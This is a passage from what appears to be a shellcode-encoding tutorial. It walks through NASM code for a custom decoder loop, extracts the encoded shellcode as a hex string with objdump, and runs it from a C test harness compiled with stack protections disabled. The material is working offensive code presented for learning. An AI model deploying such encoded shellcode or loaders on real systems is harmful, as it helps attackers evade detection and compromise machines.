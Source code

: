 Let's see what happens in the rest of the `sniffer` function when we get to a good byte like `0xc0`. 

```nasm
	mov bl, byte [esi + eax]	; since we know its a good byte, move it into $bl
	mov byte [edi], bl		; move it into $edi who's keeping track of our decoded shell-code
	inc edi				; this $edi position has been filled with a good byte, let's move to the next empty one
	add al, 2			; we know the byte after this will be garbage, so we lets skip it
	jmp short sniffer		; start this loop over
```

Let's test it!

```terminal_session
root@kali:~# objdump -d ./decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x2e\x5e\x8d\x3e\x31\xc0\x31\xdb\x8a\x1c\x06\x80\xfb\xaa\x74\x24\x8a\x1c\x06\x80\xfb\xff\x74\x0a\x8a\x1c\x06\x88\x1f\x47\x04\x02\xeb\xe6\x8a\x5c\x06\x01\xd0\xeb\x88\x1f\x47\x04\x03\xeb\xd9\xe8\xcd\xff\xff\xff\xff\x62\x0f\xc0\xde\xff\xa0\x5a\xff\xd0\x1b\xff\x5e\x09\xff\x5e\xed\xff\xe6\x09\xff\xd0\x93\xff\xd0\x30\xff\x5e\xc8\xff\xc4\x26\xff\xd2\x3e\xff\xdc\xa3\x89\x14\xe3\x9a\xff\xa0\x47\x89\xe0\xe2\xa2\xff\xa6\xa5\x89\x8b\xe1\x9e\xb0\x67\xff\x16\x8c\xcd\xb2\x80\x30\xaa"
```

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x2e\x5e\x8d\x3e\x31\xc0\x31\xdb\x8a\x1c\x06\x80\xfb\xaa\x74\x24\x8a\x1c\x06\x80\xfb\xff\x74\x0a\x8a\x1c\x06\x88\x1f\x47\x04\x02\xeb\xe6\x8a\x5c\x06\x01\xd0\xeb\x88\x1f\x47\x04\x03\xeb\xd9\xe8\xcd\xff\xff\xff\xff\x62\x0f\xc0\xde\xff\xa0\x5a\xff\xd0\x1b\xff\x5e\x09\xff\x5e\xed\xff\xe6\x09\xff\xd0\x93\xff\xd0\x30\xff\x5e\xc8\xff\xc4\x26\xff\xd2\x3e\xff\xdc\xa3\x89\x14\xe3\x9a\xff\xa0\x47\x89\xe0\xe2\xa2\xff\xa6\xa5\x89\x8b\xe1\x9e\xb0\x67\xff\x16\x8c\xcd\xb2\x80\x30\xaa"

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Next we compile it.

```terminal_session
root@kali:~# gcc -fno-stack-protector -z execstack -m32 shellcode.c -o decodeTest
shellcode.c:7:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
 main()
 ^~~~
```
